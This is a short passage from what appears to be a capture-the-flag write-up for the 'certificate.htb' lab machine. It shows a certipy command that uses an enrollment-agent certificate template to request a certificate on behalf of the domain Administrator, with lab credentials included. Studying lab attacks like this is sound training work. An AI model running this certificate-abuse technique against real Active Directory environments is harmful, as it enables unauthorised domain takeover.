 ![picture5](picture47.png)

Here i used the template `Delegated-CRA` to request for the certificate.

![picture5](picture46.png)

Then i tried to request a certificate on behalf of Administrator.

```bash
certipy req \
    -u Lion.SK@certificate.htb -p '!QAZ2wsx' \
    -dc-ip 10.10.11.71 -target 'DC01.certificate.htb' \
    -ca 'Certificate-LTD-CA' -template 'SignedUser' \
    -pfx 'lion.sk.pfx' -on-behalf-of 'CERTIFICATE\Administrator'
```

